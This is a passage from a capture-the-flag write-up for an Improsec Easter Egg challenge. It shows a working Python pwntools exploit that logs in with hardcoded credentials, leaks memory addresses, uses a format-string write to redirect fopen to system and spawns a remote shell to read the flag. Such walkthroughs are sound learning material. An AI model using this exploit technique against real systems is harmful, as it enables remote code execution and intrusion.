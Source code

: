 autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

r = remote(host,port)

r.sendlineafter(b"Enter username: ", b"improsec")
r.sendlineafter(b"Enter password: ", b"shopgirl711")

r.sendlineafter(b"Enter command: ", b"maps")
r.recvline()
map_oversigt = r.recvline()
base = int(map_oversigt.split(b"-")[0],16)
libc_base = 0
for i in range(100):
    line = r.recvline()
    if b'libc' in line:
        libc_base = int(line.split(b"-")[0],16)
        log.info(f"{line}")
        break

maps = base+0x40c0
fopen = base+0x4038
system = libc_base+0x522c0
writes = {maps: u64(b"/bin/sh\x00"), fopen: system}
payload = fmtstr_payload(offset, writes)
r.sendlineafter(b"Enter command: ", payload)
r.sendlineafter(b"Enter command: ", b'maps')
r.interactive()
{% endhighlight %}

This will give you a shell where you can do a `cat flag.txt` and get the final flag: improsegg{backdooring_a_backdoor!?}

# Conclusion

Thanks to Improsec to make a nice Easter Egg CTF which a lot of great learning points.

Thanks to everyone which exchanged views and pointers.